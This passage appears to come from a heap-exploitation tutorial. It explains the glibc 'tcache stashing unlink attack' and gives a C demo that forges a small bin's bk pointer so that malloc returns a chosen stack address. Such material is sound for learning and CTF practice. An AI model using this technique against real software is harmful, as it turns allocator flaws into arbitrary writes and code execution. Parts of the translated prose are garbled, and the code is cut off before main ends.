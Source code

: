 ### tcache stashing unlink attack

The attack method of `tcache stashing unlink attack uses the remaining method in `tcache bin` (the number is less than `TCACHE_MAX_BINS`), the small bin of the same size will be put into `tcache` (when there are free blocks in `small bin`, other free blocks of the same size will be placed into `tcache` at the same time). In this case, you can use `calloc` to allocate heap blocks of the same size to trigger, because `cache` is not selected from `tcache bin` when allocating heap blocks. After obtaining a `chunk` in a `small bin`, if `tcache` still has enough free space, the remaining small will be placed. bin`hooked into `tcache`, and in this process, only the first `bin` is checked for integrity, and the subsequent heap blocks are missing.

When an attacker can modify a `small bin``bk`,
It can be implemented to write a `libc` address on any address. If the configuration is appropriate, you can also assign `fake_chunk` to any address.

- `tcache stashing unlink attack demo`

```c
// gcc -fno-stack-protector -no-pie -g tcache-stashing-unlink-attack-demo.c -o tcache-stashing-unlink-attack-demo
// patchelf --set-interpreter /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/ld-linux-x86-64.so.2 --set-rpath /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64 tcache-stashing-unlink-attack-demo


#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);
	
	printf("stack_var addr is:%p\n",&stack_var[0]);
	printf("chunk_lis addr is:%p\n",&chunk_lis[0]);
	printf("target addr is:%p\n",(void*)target);
	
    stack_var[3] = (unsigned long)(&stack_var[2]);

    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }

    free(chunk_lis[1]);
    free(chunk_lis[0]);
    free(chunk_lis[2]);

    malloc(0xa0);
    malloc(0x90);
    malloc(0x90);

    chunk_lis[2][1] = (unsigned long)stack_var;
    calloc(1,0x90);

    target = malloc(0x90);
    printf("target now: %p\n",(void*)target);

    assert(target == &stack_var[2]);
```